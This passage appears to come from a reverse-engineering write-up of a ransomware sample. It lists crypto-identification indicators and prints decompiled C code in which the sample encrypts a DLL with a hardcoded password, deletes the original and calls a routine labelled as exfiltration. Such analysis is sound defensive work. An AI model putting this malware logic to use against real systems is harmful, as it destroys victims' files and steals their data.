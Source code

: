 **AES indicators:**
- 16-byte blocks (128 bits)
- S-box substitution tables
- Round functions (10, 12, or 14 rounds)
- MixColumns operations

**SHA/MD5 indicators:**
- Magic constants (SHA256: 0x428a2f98, 0x71374491, etc.)
- Rotate operations
- Block processing (64 bytes for SHA256)

The pseudocode from the website matches our decompiled functions perfectly. 

Let's rename:
- `sub_001558` to `rc4_prga`
- `sub_001668` to `rc4_encrypt`

**Conclusion:** The ransomware encrypts `user.html` with RC4 using a 32-byte key.

### Function 3: sub_001FB3 (Encrypting the DLL)

```c
__int64 sub_001FB3()
{
  FILE *v1;
  int v2;
  void *Block;
  void *Buffer;
  int v5;
  FILE *Stream;

  Stream = fopen("C:\\Users\\Huynh Quoc Ky\\Downloads\\Ransomware\\libgen.dll", "rb");
  if ( !Stream )
    return 0xFFFFFFFFLL;
    
  fseek(Stream, 0, 2);
  v5 = ftell(Stream);
  rewind(Stream);
  
  if ( v5 > 0 && (Buffer = malloc(v5)) != 0 )
  {
    fread(Buffer, 1u, v5, Stream);
    fclose(Stream);
    
    Block = malloc(v5 + 32);
    if ( Block )
    {
      sub_0016E4("hackingisnotacrime");  // Hash the password
      v2 = sub_00171D();                 // Encrypt
      
      if ( v2 > 0 && (v1 = fopen("C:\\Users\\...\\hacker", "wb")) != 0 )
      {
        fwrite(Block, 1u, v2, v1);
        fclose(v1);
        sub_00183D("C:\\Users\\...\\libgen.dll");  // Delete original
        free(Buffer);
        free(Block);
        sub_001AEB("C:\\Users\\...\\hacker");      // Exfiltrate
        return 0;
```
